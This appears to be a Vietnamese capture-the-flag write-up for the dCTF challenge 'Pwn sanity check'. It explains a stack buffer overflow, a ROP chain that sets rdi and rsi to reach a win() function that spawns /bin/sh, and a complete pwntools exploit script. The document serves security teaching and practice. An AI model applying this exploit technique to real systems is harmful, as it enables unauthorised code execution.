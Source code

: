 ![pinch_me](https://github.com/vietd0x/VietAT16-Task_KCSC/blob/master/dCTF/pwn/Pwn%20sanity%20check/imgs/pinch_me.png?raw=true)

Dùng ida và thấy 4 hàm ![funcs](https://github.com/vietd0x/VietAT16-Task_KCSC/blob/master/dCTF/pwn/Pwn%20sanity%20check/imgs/funcs.png?raw=true)

Hàm **main** set alarm 10s thì đóng program và gọi hàm **vuln()** ![main](https://github.com/vietd0x/VietAT16-Task_KCSC/blob/master/dCTF/pwn/Pwn%20sanity%20check/imgs/main.png?raw=true)

Useless **shell()** func:

![bof](https://github.com/vietd0x/VietAT16-Task_KCSC/blob/master/dCTF/pwn/Pwn%20sanity%20check/imgs/bof.png?raw=true)

hàm **vuln** có `fgets` nên ta có thể bof đến hàm **win** đc

bạn có thể dễ dàng tìm đc padding = 'A' * 72

Pseudocode: 

```c
int __fastcall win(int arg0, int arg1)
{
  int result;
  result = puts("you made it to win land, no free handouts this time, try harder");
  if ( arg0 == 0xDEADBEEF )
  {
    result = puts("one down, one to go!");
    if ( arg1 == 0x1337C0DE )
    {
      puts("2/2 bro good job");
      system("/bin/sh");		// your target
      exit(0);
    }
  }
  return result;
}
```

Vậy payload = 'A' * 72 + win_addr + ret_addr +'\xef\xbe\xad\xde' + '\xde\xc0\x37\x13'. Nếu là file 32b thì payload là thế, nhưng đây là file 64b- 2 arg ko đc lấy từ stack mà từ 2 registers **rdi** và **rsi** 

![64](https://github.com/vietd0x/VietAT16-Task_KCSC/blob/master/dCTF/pwn/Pwn%20sanity%20check/imgs/64.png?raw=true)

Mình sẽ dùng ROPgadget để tìm code asm có pop rdi; pop rsi để đẩy 2 arg từ stack vào rdi và rsi

![rop](https://github.com/vietd0x/VietAT16-Task_KCSC/blob/master/dCTF/pwn/Pwn%20sanity%20check/imgs/rop.png?raw=true)

--> **payload = 'A'*72 + pop_rdi_ret + '\xef\xbe\xad\xde' + pop_rsi_r15_ret  + '\xde\xc0\x37\x13'+'\x00'  + win_addr**. Mình thêm '\x00' do sau khi pop rsi thì ta còn pop r15 nữa nếu ko sẽ đẩy win_addr khỏi stack vào r15 là khỏi chơi

Ban có thể dùng pwndbg để xem code và stack [nói dông dài ko = vứt cái ảnh trực quan]

![gdb](https://github.com/vietd0x/VietAT16-Task_KCSC/blob/master/dCTF/pwn/Pwn%20sanity%20check/imgs/gdb.png?raw=true)

```python
# xpl.py
from pwn import *

def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

exe = './pwn_sanity_check'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'info'

win_addr = elf.symbols.win
pop_rdi_ret = 0x0000000000400813
pop_rsi_r15_ret = 0x0000000000400811

io = start()
payload = flat({
    72: [
        pop_rdi_ret,
        0xdeadbeef,
        pop_rsi_r15_ret,
        0x1337c0de,
        0x0,
        win_addr
        ]
})

write('payload1', payload)
io.sendlineafter("tell me a joke\n", payload)
```

![flag](https://github.com/vietd0x/VietAT16-Task_KCSC/blob/master/dCTF/pwn/Pwn%20sanity%20check/imgs/flag.png?raw=true)

